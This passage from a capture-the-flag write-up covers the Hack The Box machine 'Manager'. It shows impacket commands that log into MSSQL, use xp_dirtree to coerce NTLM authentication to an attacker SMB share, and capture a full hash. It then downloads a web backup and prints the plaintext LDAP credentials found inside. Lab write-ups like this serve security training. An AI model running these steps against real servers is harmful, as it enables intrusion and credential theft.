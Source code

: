 We connect to the DB with impacket-mssqlclient

```bash
┌──(kali㉿kali)-[~]
└─$ impacket-mssqlclient -p 1433 -windows-auth -dc-ip 10.10.11.236 "manager.htb/operator:operator"@10.10.11.236
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (MANAGER\Operator  guest@master)>
```

Following **[hacktricks relay attack guide](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#steal-netntlm-hash-relay-attack)** we can steal the hash. We have to setup a smb share and list the folder inside mssql

```bash
SQL (MANAGER\Operator  guest@msdb)> xp_dirtree \\10.10.14.11\share\any

-------------

┌──(kali㉿kali)-[~/Documents/Boxes/Manager-10.10.11.236]
└─$ sudo impacket-smbserver share -smb2support .
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.236,61016)
[*] AUTHENTICATE_MESSAGE (MANAGER\DC01$,DC01)
[*] User DC01\DC01$ authenticated successfully
[*] DC01$::MANAGER:aaaaaaaaaaaaaaaa:3fd9abd1a11e4a57e069c9188cb83006:010100000000000080addd1fb91cda0159720936877d145a000000000100100044006d005700410064004a00480077000300100044006d005700410064004a00480077000200100041006d004500660063007800460074000400100041006d004500660063007800460074000700080080addd1fb91cda01060004000200000008003000300000000000000000000000003000005bf0037d72ab0f2d4b11a72d9ef4c958cd2f0fce8c0119365f8c77d29261eb270a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310031000000000000000000
```

We cannot crack it and we couldn't use it in a Pth attack. Looking for useful info executing the command xp_dirtree (`EXEc xp_dirtree 'C:\<location>', 1, 1;`) we found a backup zip file inside `C:\inetpub\wwwroot` folder (its a **[server folder](https://tecnowindows.com/que-es-la-carpeta-inetpub-y-para-que-sirve/)**)

```bash
SQL (MANAGER\Operator  guest@msdb)> EXEc xp_dirtree 'C:\inetpub\wwwroot', 1, 1;
subdirectory                      depth   file   
-------------------------------   -----   ----   
about.html                            1      1   
contact.html                          1      1   
css                                   1      0   
images                                1      0   
index.html                            1      1   
js                                    1      0   
service.html                          1      1   
web.config                            1      1   
website-backup-27-07-23-old.zip       1      1

-----------------

┌──(kali㉿kali)-[~/Documents/Boxes/Manager-10.10.11.236]
└─$ wget 10.10.11.236/website-backup-27-07-23-old.zip
--2023-11-21 21:39:20--  http://10.10.11.236/website-backup-27-07-23-old.zip
Connecting to 10.10.11.236:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1045328 (1021K) [application/x-zip-compressed]
Saving to: ‘website-backup-27-07-23-old.zip’

website-backup-27-07-23-old. 100%[==============================================>]   1021K  1.33MB/s    in 0.8s    
2023-11-21 21:39:21 (1.33 MB/s) - ‘website-backup-27-07-23-old.zip’ saved [1045328/1045328]
```

Here we find a config.xml file with raven credentials for LDAP service

```XML
<host>dc01.manager.htb</host>
<open-port enabled="true">389</open-port>
<secure-port enabled="false">0</secure-port>
<search-base>dc=manager,dc=htb</search-base>
<server-type>microsoft</server-type>
<access-user>
<user>raven@manager.htb</user>
<password>R4v3nBe5tD3veloP3r!123</password>
</access-user>
```

Now we can access through WinRM